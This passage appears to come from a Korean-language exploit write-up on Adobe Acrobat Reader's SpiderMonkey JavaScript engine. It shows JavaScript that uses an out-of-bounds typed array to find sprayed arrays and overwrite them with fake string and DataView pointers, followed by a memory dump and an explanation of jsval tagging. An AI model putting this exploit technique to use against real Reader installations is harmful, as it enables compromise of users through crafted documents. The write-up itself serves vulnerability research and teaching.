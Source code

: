 ```jsx
                console.println("[*] leaked global array found at index:" + arrStart);
                break;
            }
        }

        // store for recovery
        originalTargetStrAddr = uintArr[arrStart + 6];
        originalTargetDVAddr = uintArr[arrStart + 8];

        // corrupt for further primitives
        uintArr[arrStart + 4] = 0x47484951;
        uintArr[arrStart + 6] = FAKE_STR;
        uintArr[arrStart + 8] = FAKE_DV;

        corruptedTypedArr = uintArr;

        break;
    }
}
```

스프레이된 `ArrayBuffer`들의 length를 검사하여 할당에 사용한 크기인 `ALLOC_SIZE`(0xffe8)와 같은지 비교하는 것으로 OOB Read/Write가 발생하는 `corruptedTypedArr`를 찾아낼 수 있습니다.

이를 통해 `sprayArrBuffers` 함수에서 스프레이된 인접한 `Array`들에 접근할 수 있고 스프레이된 `Array`에는 아래와 데이터가 저장되어 있습니다

```
24188270  00000000 00000f80 00000f80 00000f80  ................
24188280  47484950 ffffff81 0db3c420 ffffff85  PIHG.... .......
24188290  0dda27c0 ffffff87 50515051 ffffff81  .'......QPQP....
241882a0  50515051 ffffff81 50515051 ffffff81  QPQP....QPQP....
241882b0  50515051 ffffff81 50515051 ffffff81  QPQP....QPQP....
241882c0  50515051 ffffff81 50515051 ffffff81  QPQP....QPQP....
241882d0  50515051 ffffff81 50515051 ffffff81  QPQP....QPQP....
241882e0  50515051 ffffff81 50515051 ffffff81  QPQP....QPQP....

```

`Array`에는 데이터 값만 저장되는 `ArrayBuffer`와 달리 각 4바이트의 데이터 값과 타입을 나타내는 태그 값으로 이루어진 jsval이 저장됩니다.

아래는  Adobe Acrobat Reader에서 사용하는 Javascript 엔진인 SpiderMonkey에서 jsval을 표현하는 방식을 나타낸 그림입니다.
